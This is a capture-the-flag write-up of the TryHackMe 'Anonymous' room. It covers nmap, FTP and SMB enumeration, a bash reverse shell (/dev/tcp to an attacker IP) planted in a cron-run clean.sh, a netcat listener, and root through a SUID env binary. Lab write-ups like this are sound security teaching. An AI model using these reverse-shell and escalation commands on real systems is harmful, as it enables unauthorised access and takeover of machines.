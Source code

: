 ```yaml
---
title: "TryHackMe - Anonymous"
author: Nasrallah
description: ""
date: 2022-04-15 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, smb, ftp]
#img_path: /assets/img/tryhackme
image:
  src:
  width:
  height:
  alt:
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [Anonymous](https://tryhackme.com/room/anonymous) from [TryHackMe](https://tryhackme.com)

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.50.126                                                                                                                            
Host is up (0.12s latency).                                                                                                                                  
Not shown: 996 closed tcp ports (reset)                                                                                                                      
PORT    STATE SERVICE     VERSION                                             
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:                                                                                                                                                    
| FTP server status:                                                          
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp                
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -21m37s, deviation: 0s, median: -21m37s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2022-04-03T12:43:56
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-04-03T12:43:56+00:00
```

There are 4 open ports:
 - 21 ftp vsftpd
 - 22 ssh OpenSSH 7.6p1
 - 139 netbios-ssn Samba smbd
 - 445 netbios-ssn Samba smbd

Let's start off by enumerating ftp since it allows anonymous login.

## FTP

We can connect to the ftp server with `ftp {target_IP}`, we supply the name as `anonymous` and we can left the password blank.

![](/assets/img/tryhackme/anonymous/a1.png)

We found some files on the server, we can download them to our machine using `get {filename}`.

Now that the files are downloaded, let's see what's on them.

![](/assets/img/tryhackme/anonymous/a3.png)

First, we have `clean.sh` script that seems to be a cleaning script. The `to_do.txt` file has a note for removing the anonymous login. The third file, `removed_file.log`, has a bunch of text that's beings repeated, and it is the same text we saw in the `clean.sh` script ,so there must be a cronjob that runs `clean.sh` regularly.

## SMB

We can check the shares of the smb server by running : `sudo smbclient -L {target_IP} -N`.

![](/assets/img/tryhackme/anonymous/a2.png)

We found `pics` share, we can connect to that share with this command : `sudo smbclient //{target_IP}/pics -N`

![](/assets/img/tryhackme/anonymous/asmb.png)

There are two pictures there, i downloaded them using `get {filename}`, inspected them for hidden content but i got nothing.


# **Foothold**

We can use the `clean.sh` script to get access to the machine, let's check it's permissions first.

![](/assets/img/tryhackme/anonymous/a4.png)

We see that can edit the script. What i did is i created a file with the same name 'clean.sh' and put the following script in that file.

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.11.x.x/9001 0>&1
```

This script sends a reverse shell, so i setup a listener on my machine with `nc -lvnp 9001`, and uploaded a script to the ftp server using `put clean.sh`.

![](/assets/img/tryhackme/anonymous/a5.png)

Waiting for some time, i got the shell.

![](/assets/img/tryhackme/anonymous/a6.png)


# **Privilege Escalation**

For privesc, I uploaded linpeas and ran it.

![](/assets/img/tryhackme/anonymous/a7.png)

We found that `env` has suid binary set, searching for the binary in [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) we found that we can run `env /bin/bash -p` and get a root shell

![](/assets/img/tryhackme/anonymous/a8.png)

Great! We got root access.


---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
